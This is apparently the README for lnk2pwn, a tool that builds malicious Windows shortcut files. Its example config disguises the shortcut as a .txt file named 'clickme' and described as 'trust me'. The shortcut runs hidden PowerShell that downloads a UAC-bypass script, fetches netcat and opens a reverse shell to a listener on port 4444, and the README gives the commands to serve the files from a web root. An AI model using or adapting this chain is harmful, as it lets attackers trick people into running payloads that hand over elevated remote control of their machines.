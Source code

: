# lnk2pwn
Malicious Shortcut(.lnk) Generator

## About
**lnk2pwn** is a cli tool that automates the process of generating malicious .lnk(Windows shortcut) files.

Motivation: https://medium.com/@tommelo/pwned-by-a-shortcut-b21473970944

POC: https://www.youtube.com/watch?v=-D3AaC7V0sY

## Installation
lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

```shell
sudo apt-get install python2.7
sudo apt-get install wine
```
You can get the lastest version by clonning this repository:

```shell
git clone https://github.com/tommelo/lnk2pwn
```

## Usage

```shell
python lnk2pwn.py <options>
```

See the options overview:

Short opt | Long opt | Default | Required | Description
--------- | -------- | ------- | -------- | -----------
-g        | --generate    | True        | Yes | generates a malicious .lnk file
-c        | --config-file | config.json | Yes | the shortcut config file
-o        | --output-path | None        | Yes | the output path
-h        | --help        | None        | No  | shows the help usage
N/A       | --version     | None        | No  | shows the application's current version

## The config.json File

The project contains a template file called config.json that defines the attributes of the .lnk file:
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c notepad.exe",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "lnk2pwn",
        "fake_extension": ".txt",
        "file_name_prefix": "lnk2pwn"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe"
    }
}
```
## Usage Example

Generating a malicious .lnk file that bypasses UAC, downloads and executes netcat:

config.json
```shell
{
    "shortcut": {
        "target_path": "C:\\Windows\\System32\\cmd.exe",
        "working_dir": "C:\\Windows\\System32",
        "arguments": "/c powershell.exe iwr -outf %tmp%\\p.vbs http://127.0.0.1/uac_bypass.vbs & %tmp%\\p.vbs",
        "icon_path": "C:\\Windows\\System32\\notepad.exe",
        "icon_index": null,
        "window_style": "MINIMIZED",
        "description": "trust me",
        "fake_extension": ".txt",
        "file_name_prefix": "clickme"
    },

    "elevated_uac": {
        "file_name": "uac_bypass.vbs",
        "cmd": "cmd.exe /c powershell.exe -nop -w hidden iwr -outf C:\\Windows\\System32\\nc.exe http://127.0.0.1/nc.exe & C:\\Windows\\System32\\nc.exe 127.0.0.1 4444 -e cmd.exe"
    }
}
```
Generating the files:
```shell
python lnk2pwn.py -c config.json -o /var/www/html
```

## Piped Input

You can pipe the config json content to the application:
```shell
cat config.json | python lnk2pwn.py -o /var/www/html
```

## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT).
